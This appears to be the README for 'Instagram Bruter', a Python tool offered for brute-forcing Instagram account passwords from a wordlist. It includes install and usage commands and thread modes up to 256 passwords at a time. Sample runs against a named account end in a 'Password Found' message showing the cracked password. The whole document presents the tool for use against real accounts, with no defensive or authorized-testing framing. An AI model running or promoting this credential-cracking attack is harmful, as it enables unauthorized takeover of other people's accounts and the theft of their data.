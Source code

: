 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.0-blue.svg)]()
[![Python](https://img.shields.io/badge/Python-v2.7--3-blue.svg)]()
[![Discord](https://img.shields.io/badge/Chat-Server-brightgreen.svg)](https://discord.gg/SMUaWmn)
<br>

### Support
It's not easy maintaining this code, a donation of any size would be helpful<br><br>
[![Donate](https://img.shields.io/badge/Paypal-Donate-orange.svg)]( https://www.paypal.me/Msheikh03)

Re-engineered to work **without** TOR<br><br>
__Usage:__ `python instagram.py <username> <wordlist> -m <mode>`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Install Dependencies
```
python install.py
```

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 16 bots; 1 => 8 bots; 2 => 4 bots; 3 => 2 bots
```

### Bots(Threads)
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time
- 16 bots: 256 passwords at a time

### Modes
- 0: 16 bots
- 1: 8 bots
- 2: 4 bots
- 3: 2 bots

### Chill mode
This mode uses only 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 8 bots, or 128 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 16 bots, or 256 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 2
[-] Attempts: 14
[-] Browsers: 87
```

### Stop
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 101
[-] Browsers: 0

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
